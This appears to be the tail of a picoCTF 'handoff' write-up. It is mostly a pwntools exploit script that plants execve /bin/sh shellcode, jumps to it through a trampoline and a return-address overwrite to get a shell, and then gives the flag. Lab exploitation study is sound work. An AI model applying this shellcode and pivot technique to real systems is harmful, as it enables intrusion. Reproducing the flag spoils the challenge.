

The final exploit code is unnecessarily long with more operations than needed, but I wanted to simplify the most possible the jumps and make sure I land in a correct zone.
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template handoff
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/home/alex/Downloads/ctfs/curr_ctf/handoff')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return remote("shape-facility.picoctf.net", 62431)
        #return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#break *vuln+207
#break *vuln+484
break *0x40116c
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX unknown - GNU_STACK missing
# PIE:        No PIE (0x400000)
# Stack:      Executable
# RWX:        Has RWX segments
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

# vuln+207 = total_entries++;

io = start()

# create 10 users to make the shellcode closer...
for i in range(0, 10):
    io.sendline(b'1')
    io.recvuntil(b"What's the new recipient's name:")
    payload = b"\x90" * 31 # shellcode here
    io.sendline(payload)

# add payload to users by using the "send message" feature
shellcode = b'\x90' * 32
shellcode += b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
shellcode += b'\x90' * (64 - len(shellcode) - 1)

for i in range(0, 10):
    io.sendline(b'2')
    io.recvuntil('Which recipient would you like to send a message to?')
    io.sendline(bytes(str(i), 'utf-8'))
    io.sendline(shellcode)

# exit and send ROP gadget through feedback
io.recvuntil(b'3. Exit the app')
io.sendline(b'3')
io.recvuntil(b'we would really appreciate it:')

# ROPchain must change execution flow to trampoline shellcode
rop_chain = b'\x48\x89\xE0\x48\x2D\x8C\x00\x00\x00\x48\x89\xE5\xFF\xE0' # trampoline shellcode jumps to RSP-X, trying to land in the actual shellcode...
rop_chain += b'\x90' * (20 - len(rop_chain))
rop_chain += p64(0x000000000040116c)

io.sendline(rop_chain)

io.interactive()
```

**Solution**


Flag: picoCTF{p1v0ted_ftw_c96138ae}


[back](/index)


**Resources**

1. [Return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)
2. [Searchable Linux Syscall Table](https://filippo.io/linux-syscall-table/)
3. [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly2)
4. [Execute /bin/sh](https://shell-storm.org/shellcode/files/shellcode-806.html)
5. [Linux x64 Calling Convention: Stack Frame](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame)